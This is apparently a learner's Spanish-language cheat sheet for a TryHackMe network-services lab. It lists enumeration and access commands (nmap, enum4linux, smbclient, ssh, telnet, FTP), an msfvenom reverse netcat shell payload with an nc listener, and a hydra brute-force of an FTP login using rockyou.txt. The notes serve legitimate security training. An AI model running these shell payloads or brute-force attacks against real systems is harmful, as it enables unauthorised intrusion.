 ```yaml
---
draft: "true"
---
```


https://tryhackme.com/r/room/networkservices

Comandos usados:
`IP=10.10.188.119`
`nmap -sV $IP`

Para escanear Samba o SMB:
`enum4linux -a $IP`

Para entrar en Samba:
`smbclient //$IP/profiles -U Anonymous -p 445`

Descargar archivo en Samba:
`get "Filename"

Conectar por ssh
`sudo chmod 600 clave`
`ssh -i clave usuario@$IP`

Conectar telnet
`telnet $IP $PORT`

Capturar tráfico
`sudo tcpdump ip proto \\icmp -i tun0`

Creación de un payload sencillo
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

Generación de un listener con nc
`nc -lvp 4444`

Conectarte a FTP
`FTP $IP`
`get <file>`


Ataque de fuerza bruta mediante hydra
`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV $IP ftp`

